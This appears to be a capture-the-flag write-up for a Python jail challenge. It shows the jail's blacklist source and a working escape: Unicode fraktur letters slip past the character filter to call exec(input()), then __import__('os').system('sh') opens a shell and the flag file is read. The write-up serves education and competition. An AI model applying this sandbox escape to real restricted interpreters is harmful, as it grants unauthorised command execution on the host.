

# yet another pyjail
> CTFs without jails are boooring, innit?

## About the Challenge
This is a classic PyJail chall where we need to escape from the sandbox to obtain the flag. We got a python file that looks like this

```python
import ast, code, sys
blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFHJKLMNOPQRSTUVWXYZ1234567890" 

entry=r"""
Welcome, enjoy your stay...

     \                  ###########                  /
      \                  #########                  /
       \                                           /
        \                                         /
         \                                       /
          \                                     /
           \                                   /
            \_________________________________/
            |                                 |
            |                                 |
            |                                 |
            |            _________            |
            |           |         |           |
            |           |   ___   |           |
            |           I  |___|  |           |
            |           |         |           |
            |           |         |           |
            |           |        _|           |
            |           |       |#|           |  ;,
    -- ___  |           |         |           |   ;'
    H*/   ` |           |         |      _____|    .,`
    */     )|           I         |     \_____\     ;'
    /___.,';|           |         |     \\     \     ."`
    |     ; |___________|_________|______\\     \      ;:
    | ._,'  /                             \\     \      .
    |,'    /                               \\     \
    ||    /                                 \\_____\
    ||   /                                   \_____|
    ||  /              ___________                \
    || /              / =====o    |                \
    ||/              /  |   /-\   |                 \
    //              /   |         |                  \
   //              /    |   ____  |______             \
  //              /    (O) |    | |      \             \
 //              /         |____| |  0    \             \
//              /          o----  |________\             \
/              /                  |     |  |              \
              /                   |        |               \
             /                    |        |             
            /                     |        |

"""

bye = """
Goodbye.


        _.---,._,'
       /' _.--.<
         /'     `'
       /' _.---._____
       \.'   ___, .-'`
           /'    \\             
         /'       `-.          
        |                       
        |                   .-'~~~`-.
        |                 .'         `.
        |                 |  R  I  P  |
        |                 |           |
        |                 |           |
         \               \\|           |//
   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^"""

def console_exit():
    print(bye)
    raise SystemExit

def read_input(args):
    inp = input('>>> ') 
    if len(inp) > 20:
        print("input too long")
        exit()
    if "Attribute" in ast.dump(ast.parse(inp)):
        print("no attribute access allowed")
        exit()
    if "Subscript" in ast.dump(ast.parse(inp)):
        print("no indexing allowed")
        exit()
    for i in blacklist:
        if i in inp:
            print("input contained blaclisted characters")
            exit()
    return inp

while True:
    print(entry)
    try:
        code.interact(banner="", exitmsg=None, local={"exit": console_exit}, readfunc=read_input)
    except SystemExit:
        break
    print(bye)
    break
```

There are some restrictions like we can't input a-zA-Z0-9 and the `len(input) > 20` 

## How to Solve?
We still can bypass the `blacklist` by using a gothic font or cursive font and then run this code to bypass the length restriction

```python
𝔢𝔵𝔢𝔠(𝔦𝔫𝔭𝔲𝔱())
```

And then use `__import__` to import `os` pkg to spawn a shell

```python
__import__("os").system("sh")
```

And to read the flag, run this shell command

```sh
cat flag.txt
```



```
d4rk{1n_1996_4ndy_dufr35n3_35c4p3d_fr0m_5h4w5h4nk_pr150n}c0de
```